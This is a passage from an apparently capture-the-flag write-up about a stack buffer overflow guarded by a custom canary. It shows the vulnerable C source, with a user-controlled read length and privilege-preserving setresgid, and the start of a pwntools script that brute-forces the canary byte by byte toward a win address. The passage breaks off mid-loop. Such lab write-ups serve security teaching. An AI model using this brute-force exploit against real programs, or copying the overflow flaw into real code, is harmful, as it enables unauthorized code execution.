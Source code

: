 ```C
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

From the source code there's two different approaches to take; we can brute force the stack canary or since the exploit must be run locally, we can abuse relative paths.

```python
canary_offset = 32
eip_offset = 16 #offset from canary
win_addr = 0x080486eb
canary = 0x2c567834

def oracle():
    canary = ''
    guess = 0x00
    payload = ''
    payload += 'A'*canary_offset

    #brute force next 4 addresses
    while len(canary) < 4:
        while guess != 0xff:
            r = process(name,env={})

            r.recvuntil('?\n> ')
            r.sendline('36')

            r.recvuntil("Input> ")
            r.sendline(payload + p8(guess))

            result = r.recvline() #either "stack smashing detected" or "where's the flag?"
            print result
            r.close()
            log.info("Sent: %s" % hex(guess))

            if 'Corrupt!' in result:
```